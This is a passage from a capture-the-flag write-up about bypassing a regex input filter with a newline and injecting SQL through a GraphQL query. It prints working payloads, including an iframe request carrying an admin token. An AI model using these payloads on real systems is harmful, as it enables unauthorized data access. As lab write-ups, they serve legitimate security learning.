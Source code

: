 We've got a RegEx check which tests for symbols such as `'` and `"` - both of which are extremely useful when it comes to performing SQL injection. Let's look for a bypass. 

After a bit of research, I came across the following ReGex [cheat sheet](https://github.com/attackercan/regexp-security-cheatsheet). It mentions that a RegEx check can be potentially bypassed with a newline character (`\n`) if the dot symbol is used in the pattern.

>In case modifier /m is not (globally) specified, regexp should avoid using dot . symbol, which means every symbol except newline (\n). It is possible to bypass regex using newline injection.


Perfect. 

It took a couple of attempts to craft the correct payload, but eventually we were able to do the following through escaping `\n`:

> `'OR 1=1--` is a classic test for SQL injection - it's a query that always returns true. If successful it'll dump all rows from the queried table. 
{: .prompt-tip }


```
query={
  getDataByName(name: "john\\n' OR 1=1-- ") {
    id
    name
  }
}
```

```json
{
    "url" :"localhost:1337/<iframe src='http://localhost:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTYxOTM0ODZ9.CwFQM5tcCFDeRt45Sa7ExJkndNfSp_kF9QhvyXu151Y&query=%7B%0A%20%20getDataByName(name%3A%20%22john\\n%27%20OR%201=1--%20%22)%20%7B%0A%20%20%20%20id%0A%20%20%20%20name%0A%20%20%7D%0A%7D' height='1000' width='1000'></iframe>"
}

```

![image](../images/htb-ctf-2024/sql-injection-1=1.png)
*SQL injection success*

Success! Since we're now able to perform SQL injection to dump all rows in the table, we can also dump all table names in the database using a `UNION SELECT` statement after correctly guessing the amount of rows in the current table:
